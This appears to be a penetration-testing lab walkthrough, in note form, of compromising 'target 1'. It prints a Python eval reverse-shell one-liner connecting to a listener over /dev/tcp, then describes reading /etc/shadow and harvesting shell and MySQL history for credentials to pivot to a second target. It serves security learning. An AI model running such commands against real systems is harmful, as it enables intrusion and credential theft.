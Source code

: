 # Exploitation target 1

I crafted a bash reverse shell payload and used the `eval` python function to execute the commands (though this wasn't necessary).

I set up a Metasploit listener  with  `linux/x64/shell_reverse_tcp` payload and executed the following payload:

```python
eval(__import__('os').system('bash -c "bash -i >& /dev/tcp/192.224.248.2/4444 0>&1"'))
```

![[target_1_revshell.png]]

And it succeed.

![[target_1_compromised.png]]

Looking at the network interfaces there's no other network so I tried to find the flag.

# Enumerate the compromised machine

# Users


Read the `/etc/shadow` file 

![[target_1_shadow.png]]

# User's shell history

Use the `post/linux/gather/enum_users_history` module to gather information from the shell history.

Specifically is returns:

*user list, bash history, mysql history, vim history, lastlog and sudoers*

![[target_1_historyMSF.png]]

![[target_1_users_history.png]]

The files are saved on the attacker machine, check the file's content.

![[target_1_mysql_creds.png]]

As there is a mysql service running on target 2 [[Footprinting and scanning target 2]] 

Continue exploitation of target 2 on [[Exploitation target 2]]

